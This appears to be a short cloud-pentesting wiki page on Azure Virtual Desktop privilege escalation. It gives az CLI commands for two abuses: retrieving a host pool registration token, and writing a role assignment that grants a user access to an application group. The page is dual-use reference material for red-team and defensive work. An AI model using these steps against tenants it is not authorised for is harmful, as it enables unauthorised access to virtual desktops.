 # Az - Virtual Desktop Privesx

## Azure Virtual Desktop Privesc

For more info about Azure Virtual Desktop check:

[[../az-services/az-virtual-desktop.md]]

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
You can retrieve the registration token used to register virtual machines within an host pool.

```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```

### Microsoft.Authorization/roleAssignments/read, Microsoft.Authorization/roleAssignments/write

> [!WARNING]
> An attacker with these permissions could do things much more dangerous than this one.

With this permissions you can add a user assignment to the Application group, which is needed to access the virtual machine of the virtual desktop:

```bash
az rest --method PUT \
  --uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
  --body '{
    "properties": {
      "roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
      "principalId": "<USER_OBJECT_ID>"
    }
  }'
```

Note that in order for a user to be able to access a Desktop or an app, he also needs the role `Virtual Machine User Login` or `Virtual Machine Administrator Login` over the VM.

